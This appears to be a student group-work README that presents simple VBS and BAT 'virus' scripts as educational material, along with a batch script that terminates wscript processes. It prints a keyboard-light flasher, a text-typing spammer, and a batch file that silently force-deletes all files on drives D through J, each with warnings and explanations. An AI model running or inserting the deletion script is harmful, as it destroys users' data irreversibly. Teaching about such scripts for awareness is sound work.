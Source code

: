 # VBS and BAT Viruses - Group Work

This document is made as an educational material about potentially harmful scripts and how to protect against them. **DO NOT EXECUTE ANY OF THESE SCRIPTS** because they can damage your system.

### 1. Keyboard Lights Flasher ([key.vbs](https://github.com/Ananya-Addisu/Endless-OS/blob/main/key.vbs))
```vbs
Set wshShell =wscript.CreateObject("WScript.Shell")
do
wscript.sleep 100
wshshell.sendkeys "{CAPSLOCK}"
wscript.sleep 100
wshshell.sendkeys "{NUMLOCK}"
wscript.sleep 100
wshshell.sendkeys "{SCROLLLOCK}"
loop
```
**Effect:** This script keeps switching the Caps Lock, Num Lock, and Scroll Lock keys on and off, which makes the keyboard lights flash non-stop. It won’t damage your data, but it can definitely get annoying.

### 2. Formatter ([form.bat](https://github.com/Ananya-Addisu/Endless-OS/blob/main/form.bat))
```bat
@echo off
del D:\*.* /f /s /q
del E:\*.* /f /s /q
del F:\*.* /f /s /q
del G:\*.* /f /s /q
del H:\*.* /f /s /q
del I:\*.* /f /s /q
del J:\*.* /f /s /q
```
**Effect:** This script is really risky because it tries to delete every file on drives D upto J. The deletion goes like this:
- Silent (`/q` parameter)
- Forced (`/f` parameter) 
- Recursive through all subdirectories (`/s` parameter)

**WARNING:** Running this script can lead to permanent data loss. Once you delete the files, it's tough to get them back without special recovery tools, and even they might not bring everything back. It's like a one time hit and run that can do serious damage right away.

### 3. Text Spammer ([txtspm.bat](https://github.com/Ananya-Addisu/Endless-OS/blob/main/txtspm.bat))
```vbs
Set wshShell = wscript.CreateObject("WScript.Shell")
do
wscript.sleep 100
wshshell.sendkeys "This is a harmless virus"
loop
```
**Effect:** This script types out "This is a harmless" virus wherever your cursor is. It can mess with your work by making it tough to type normally and could lead to some accidental things happening if it gets typed into command prompts or other apps.

## Antivirus Solution (ant.bat)

Here’s a script that can help stop harmful VBS scripts like the keyboard flasher and text spammer:

```bat
@echo off
echo Script Terminator - Emergency System Protection
echo =============================================
echo.
echo Scanning for malicious processes...
tasklist | findstr "wscript.exe" > nul
if %ERRORLEVEL% EQU 0 (
    echo ALERT: Found wscript.exe running!
    echo Terminating all wscript processes...
    taskkill /f /im wscript.exe
    echo Process terminated successfully.
) else (
    echo No malicious wscript processes found.
)
echo.
echo Checking system integrity...
echo.
echo NOTE: If files were deleted by the formatter script,
echo immediate actions are required:
echo 1. Disconnect the affected drives
echo 2. Do not write any new data to them
echo 3. Use professional data recovery services or software like recuva
echo   because deleted files are NOT recoverable through standard ways
echo.
echo While this script can stop active malicious scripts,
echo it CANNOT recover files deleted by the formatter script.
echo That damage is irreversible without professional recovery tools.
echo.
pause
```

You can find other batch script and powershell based scripts at [OSSPG4](https://osspg4.vercel.app/#virus-production-and-protection)
